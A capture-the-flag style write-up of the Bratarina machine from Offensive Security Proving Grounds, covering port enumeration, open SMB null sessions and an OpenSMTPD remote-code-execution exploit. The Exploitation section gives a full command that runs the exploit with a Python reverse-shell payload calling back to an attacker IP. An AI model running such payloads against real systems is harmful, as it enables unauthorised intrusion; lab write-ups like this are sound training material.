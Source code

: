 ```yaml
---
description: Writeup for Bratarina from Offensive Security Proving Grounds (PG)
---
```


# Bratarina

## Service Enumeration

`nmapAutomator.sh -H 192.168.163.71 -t full`

`nmapAutomator.sh -H 192.168.163.71 -t vulns`

![](../../.gitbook/assets/3cf7def76b2a43b2ba4161a0a9b1a9de.png)

### Samba

Null SMB sessions are allowed.

![](../../.gitbook/assets/52b44efb6d7449f7b618e801ca88cf5d.png)

There is a `backups` share.

![](../../.gitbook/assets/e8c07a66a4984db292075c3ccb201958.png)

### SMTP

OpenSMTP 2.0.0 is used.

![](../../.gitbook/assets/d897f209a0024f579216e21871dd0cd8.png)

## Exploitation

This is vulnerable to an RCE vulnerability: [https://www.exploit-db.com/exploits/47984](https://www.exploit-db.com/exploits/47984)

`python3 47984.py 192.168.163.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.163\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'`

We receive a reverse shell:

![](../../.gitbook/assets/dcc7279e5ed746efb80b22e3606c63c4.png)

Proof:

![](../../.gitbook/assets/9bb24000317d471eb04ad046f27db0f0.png)

